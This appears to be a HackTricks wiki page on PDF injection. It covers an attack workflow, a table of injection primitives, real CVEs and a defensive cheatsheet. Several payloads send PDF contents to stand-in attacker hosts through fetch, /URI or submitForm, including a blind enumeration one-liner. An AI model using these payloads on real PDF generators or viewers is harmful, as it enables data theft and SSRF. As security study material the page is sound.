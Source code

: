 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**If your input is being reflected inside a PDF file, you can try to inject PDF data to execute JavaScript, perform SSRF or steal the PDF content.**  
PDF syntax is extremely permissive – if you can break out of the string or dictionary that is embedding your input you can append totally new objects (or new keys in the same object) that Acrobat/Chrome will happily parse.  
Since 2024 a wave of bug-bounty reports have shown that *one unescaped parenthesis or back-slash is enough* for full script execution.

## TL;DR – Modern Attack Workflow (2024)
1. Find any user-controlled value that ends up inside a **(parenthesis string)**, `/URI ( … )` or `/JS ( … )` field in the generated PDF.
2. Inject `) ` (closing the string) followed by one of the primitives below and finish with another opening parenthesis to keep the syntax valid.
3. Deliver the malicious PDF to a victim (or to a backend service that automatically renders the file – great for blind bugs).
4. Your payload runs in the PDF viewer:
   * Chrome / Edge → PDFium Sandbox
   * Firefox → PDF.js (see CVE-2024-4367)
   * Acrobat → Full JavaScript API (can exfiltrate arbitrary file contents with `this.getPageNthWord`)  

Example (annotation link hijack):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next ( 
```
*The first `)` closes the original URI string, we then add a new **Action** dictionary that Acrobat will execute when the user clicks the link.*

## Useful Injection Primitives
| Goal | Payload Snippet | Notes |
|------|-----------------|-------|
| **JavaScript on open** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Executes instantly when the document is opened (works in Acrobat, not in Chrome). |
| **JavaScript on link** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Works in PDFium & Acrobat if you control a `/Link` annotation. |
| **Blind data exfiltration** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Combine with `this.getPageNthWord` inside JS to steal content. |
| **Server-Side SSRF** | Same as above but target an internal URL – great when the PDF is rendered by back-office services that honour `/URI`. |
| **Line Break for new objects** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | If the library lets you inject new-line characters you can create totally new objects. |

## Blind Enumeration Trick
Gareth Heyes (PortSwigger) released a one-liner that enumerates every object inside an unknown document – handy when you cannot see the generated PDF:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
The code iterates over the Acrobat DOM and makes outbound requests for every property/value pair, giving you a *JSON-ish* dump of the file.  
See the white-paper “Portable Data **ex**Filtration” for the full technique.

## Real-World Bugs (2023-2025)
* **CVE-2024-4367** – Arbitrary JavaScript execution in Firefox’s PDF.js prior to 4.2.67 bypassed the sandbox with a crafted `/JavaScript` action.  
* **Bug bounty 2024-05** – Major fintech allowed customer-supplied invoice notes that landed in `/URI`; report paid $10k after demonstrated SSRF to internal metadata host using `file:///` URI.
* **CVE-2023-26155** – `node-qpdf` command-injection via unsanitised PDF path shows the importance of escaping backslashes and parentheses even *before* the PDF layer.  

## Defensive Cheatsheet
1. **Never concatenate raw user input** inside `(`…`)` strings or names. Escape `\`, `(`, `)` as required by §7.3 of the PDF spec or use hex strings `<...>`.
2. If you build links, prefer `/URI (https://…)` that you *fully* URL-encode; block `javascript:` schemes in client viewers.
3. Strip or validate `/OpenAction`, `/AA` (additional actions), `/Launch`, `/SubmitForm` and `/ImportData` dictionaries when post-processing PDFs.
4. On the server side, render untrusted PDFs with a *headless converter* (e.g. qpdf –decrypt –linearize) that removes JavaScript and external actions.
5. Keep PDF viewers up to date; PDF.js < 4.2.67 and Acrobat Reader before July 2024 patches allow trivial code execution.



## References
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (updated May 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (Apr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
